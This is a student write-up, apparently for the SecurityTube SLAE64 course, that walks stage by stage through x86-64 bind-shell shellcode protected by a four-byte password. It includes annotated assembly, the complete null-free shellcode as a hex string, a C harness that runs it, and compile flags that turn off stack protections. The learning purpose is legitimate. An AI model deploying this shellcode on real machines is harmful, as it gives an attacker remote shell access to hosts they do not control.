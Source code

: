 # Bindshell with Password

This assignment was split in two parts:
1. Make the BindShell-Shellcode from the class free of nullbytes
2. Create a BindShell-Shellcode which spawns a shell after a certain password has been entered

I first created a nullbyte-free version of the shellcode from the class and then extended it with an authentication mechanism. The shellcode consists of 8 stages:

## Create a socket

This part of the shellcode basically does:
```
socket(AF_INET, SOCK_STREAM, 0)
```

And is achieved by:
```
    xor rax, rax
    cdq
    push SYS_SOCKET
    pop rax ; RAX contains the socket() syscall
    push AF_INET
    pop rdi ; rdi contains the AF_INET parameter
    push SOCK_STREAM
    pop rsi ; rsi contains the SOCK_STREAM parameter

    SYSCALL
```

The comments should be self-explaining. Note that I made use of the ```push pop``` technique to fill the registers with the right values. The push pop technique avoids null bytes and is shorter then the ```mov``` instruction.
Also I used cdq to clear out the RDX register which is possible as RAX is 0 at this point.

## Bind the socket
Again the following piece of shellcode is equivalent to this C snippet:
```
bind(sockfd, const struct sockaddr *addr, 16)
```

Assembly:
```
    ; First set up the struct sockaddr_in on the stack
    push rdx        ; sin_zero
    add dx, PORT    ; Place the port in the struct
    shl rdx, 16     ; Shift the port to the right position
    add dx, AF_INET ; add the af_inet flag to the struct
    push rdx        ; Put the struct on the stack
    push rsp
    pop rsi         ; Rsi now points to the struct

    push rax        ; Rax still contains the created socket
    pop rdi         ; The socket is now in Rdi
    push SIZE_STRUCT
    pop rdx         ; Rdx does now contain the size of the struct

    push SYS_BIND
    pop rax         ; Rax equals the syscallnumber for bind

    SYSCALL
```

In order to create the struct I made use of shifting and used the lower bit registers to arrange the struct.

## Listen
C pseudocode:
```
; listen(fd, 1)
```
```
    push rax ; Rax should contain null as bind() is expected to work successfully
    pop RSI
    inc RSI  ; Rsi is now 1
    push SYS_LISTEN
    pop RAX  ; Rax has the syscallnumber for listen

    SYSCALL
```
Nothing surprising here, note that I rely on bind() returning 0 :-)

## Accept:
C pseudocode:
```
    ; accept(sockfd, struct sockaddr *addr, 16)
```
Assembly:
```
    push rsp ; Reuse old struct
    pop rsi  ; Rsi points to struct
    push SIZE_STRUCT
    push RSP
    pop RDX ; Pointer to the size of the struct in RDX
    push SYS_ACCEPT
    pop RAX

    SYSCALL
```

In this step I reused the old struct on the stack for the accept call. To do so I rely on the fact that the Rsp has the same value as it had during the bind syscall.

## Authentication
I first read 4 bytes from the new socket an then compare it to a defined constant.

To read the password I did this in C pseudocode:
```
    ; read(fd, *buf, 4)
```

Assembly:
```
    add RSI, 8 ; Make it point to sin_zero of sockaddr. We dont need this anymore
    push RAX ; Rax still contains the accepted socket
    pop RDI ; Rdi contains the new socket
    xor al, al ; Clear out rax
    push 0x4 ; Specify num_bytes to read
    pop RDX

    SYSCALL ; Do the read
```

Note that I store the read password in the sin_zero field of the sockaddr_in struct. I mean ... there are nullbytes already which mark the end of the password. :-)

To compare the entered password with the constant I did:
```
    cmp dword[rsi], PASSWORD ; Rsi still points to the sin_zero field which contains the entered pw.
    jne _burn ; Cause a sigsegv upon a wrong password
```

## DUP 2
The next step is to redirect stdin, stdout and stderr to the new socket. Otherwise we would not see any output from the shell as it prints out to stdout, not to the socket.

For this I created a loop which decrements a counter starting from 2-0. It starts from 2 as 2 marks stderr and 0 stdin.

Assembly:
```
_dup2:
   ; dup2(client, STDIN)
   ; dup2(client, STDOUT)
   ; dup2(client, STERR)

    push 3
    pop rsi

_loop:

    dec esi
    push SYS_DUP2
    pop rax
    SYSCALL

    jne _loop
```

## Finally call execve
This is a pretty standard way to call execve('/bin/sh', NULL, NULL)
```

    cdq ; Null out rdx. Rax should still be zero because the last dup2() redirected stdin.
    push rax
    mov rax, BINSH ; BINSH hexstring in rax
    push rax
    push rsp ; get a pointer to binsh
    pop rdi

    xor rax, rax
    mov al, SYS_EXECVE
    syscall
```

In order to test this shellcode I made use of the following C snippet:
```

#include <string.h>

char shellcode[] = "\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x52\x66\x81\xc2\x11\x5c\x48\xc1\xe2\x10\x66\x83\xc2\x02\x52\x54\x5e\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x50\x5e\x48\xff\xc6\x6a\x32\x58\x0f\x05\x54\x5e\x6a\x10\x54\x5a\x6a\x2b\x58\x0f\x05\x48\x83\xc6\x08\x50\x5f\x30\xc0\x6a\x04\x5a\x0f\x05\x81\x3e\x41\x41\x41\x41\x75\x22\x6a\x03\x5e\xff\xce\x6a\x21\x58\x0f\x05\x75\xf7\x99\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x54\x5f\x48\x31\xc0\xb0\x3b\x0f\x05";

main(void)
{
        printf("Shellcode length: %d\n", (int)strlen(shellcode));

        /* pollute registers and call shellcode */
        __asm__ (        "mov $0xffffffffffffffff, %rax\n\t"
                         "mov %rax, %rbx\n\t"
                         "mov %rax, %rcx\n\t"
                         "mov %rax, %rdx\n\t"
                         "mov %rax, %rsi\n\t"
                         "mov %rax, %rdi\n\t"
                         "mov %rax, %rbp\n\t"

                         "call shellcode"       );
}

```

Compile:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
